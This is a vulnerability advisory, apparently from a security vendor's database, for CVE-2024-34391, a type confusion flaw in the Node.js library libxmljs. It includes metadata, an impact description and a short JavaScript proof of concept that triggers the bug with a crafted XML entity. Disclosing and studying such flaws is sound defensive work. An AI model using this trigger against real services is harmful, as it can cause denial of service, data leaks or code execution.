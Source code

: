 ```yaml
---
description: CVE-2024-34391, HIGH, libxmljs attrs type confusion RCE
title: libxmljs attrs type confusion RCE
date_published: "2024-05-02"
last_updated: "2024-05-02"
xray_id: JFSA-2024-001033988
vul_id: CVE-2024-34391
cvss: 8.1
severity: high
discovered_by: Uriya Yavnieli
type: vulnerability

---
```


## Summary

libxmljs attrs type confusion RCE

## Component

libxmljs

## Affected versions

(,)

## Description

libxmljs is vulnerable to a type confusion vulnerability when parsing a specially crafted XML while invoking a function on the result of attrs() that was called on a parsed node. This vulnerability might lead to denial of service (on both 32-bit systems and 64-bit systems), data leak, infinite loop and remote code execution (on 32-bit systems with the XML_PARSE_HUGE flag enabled).

## PoC

```js
const libxmljs = require('libxmljs');

var d = `<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note
[
<!ENTITY writer "` +
 'A'.repeat(0x1234) +
`">
]>
<from>&writer;</from>
`;

t = libxmljs.parseXml(d, {flags: [libxmljs.XMLParseFlags.XML_PARSE_HUGE]})
from = t.get('//from')
c = from.childNodes()[0]
c2 = c.childNodes()[0]
c2_attrs = c2.attrs()
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[Original Advisory](https://github.com/libxmljs/libxmljs/issues/645)

